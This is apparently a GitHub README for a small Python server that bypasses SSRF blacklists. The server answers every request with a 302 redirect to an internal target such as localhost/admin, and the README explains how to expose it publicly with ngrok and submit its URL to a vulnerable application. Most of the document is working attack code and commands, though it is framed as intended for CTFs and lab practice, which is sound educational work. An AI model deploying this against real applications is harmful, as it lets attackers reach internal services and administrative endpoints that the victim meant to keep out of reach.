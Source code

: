 # SSRF-with-malicious-server
Very simple python server which bypasses black list by redirecting the user to the given URL. This is only intended to be used for educational purposes, such as in CTFs, practicing in vulnerable VMs, etc.

This script exploits a vulnerability that occurs when improperly preventing SSRF attacks with Black Lists. Since the DNS resolution only occurs after the security filter is applied, we can craft a server with a valid URL which contains a redirect to the desired URL.

## Instructions

### 1) Running the server locally

```python
import http.server
import socketserver

# --- Configuration ---
# Set the URL you want the vulnerable server to be redirected to.
# This is the internal endpoint you are targeting in the lab.
TARGET_URL = "http://localhost/admin" 
PORT = 8000
# -------------------

class RedirectHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        print(f"Received request, redirecting to: {TARGET_URL}")
        self.send_response(302) # 302 is a temporary redirect
        self.send_header('Location', TARGET_URL)
        self.end_headers()

# Creates and runs the server
with socketserver.TCPServer(("", PORT), RedirectHandler) as httpd:
    print(f"Redirect server running on port {PORT}")
    print(f"Any request will be redirected to {TARGET_URL}")
    httpd.serve_forever()
```

In this small piece of code, all you have to do is change the value of the ```TARGET_URL``` to your desired Server-side target.

Save the file and run the following command on your machine:

```bash
python3 server.py
```

The Server will start on port 8000 and will redirect any requests made to it to the TARGET_URL.

### 2) Hosting the server with ngrok

Now, in order to make the server accessible to the internet, we'll use ngrok to do so. You can get more details on how to set up ngrok on your machine [here](https://ngrok.com/).

Once you have your server running and ngrok ready to go, run the following command on your terminal:

```bash
ngrok http 8000
```

This will expose the server running on port 8000 to the internet. Your terminal should look like this:

```
ngrok
                                                                                                                                                                                                                    
🫶 Using ngrok for OSS? Request a community license: https://ngrok.com/r/oss                                                                                                                                        
                                                                                                                                                                                                                    
Session Status                online                                                                                                                                                                                
Account                       <Your Username> (Plan: Free)                                                                                                                                                    
Update                        update available (version 3.25.0, Ctrl-U to update)                                                                                                                                   
Version                       3.24.0                                                                                                                                                                                
Region                        <Your Region>                                                                                                                                                                    
Latency                       27ms                                                                                                                                                                                  
Web Interface                 http://127.0.0.1:4040                                                                                                                                                                 
Forwarding                    https://<random-text>.ngrok-free.app -> http://localhost:8000                                                                                                                          
                                                                                                                                                                                                                    
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                                                                           
                              0       0       0.00    0.00    0.00    0.00
```

You can then copy ```https://<random-text>.ngrok-free.app``` and insert it into the vulnerable application. You can check the requests's logs in the ```Connections``` section in your terminal.


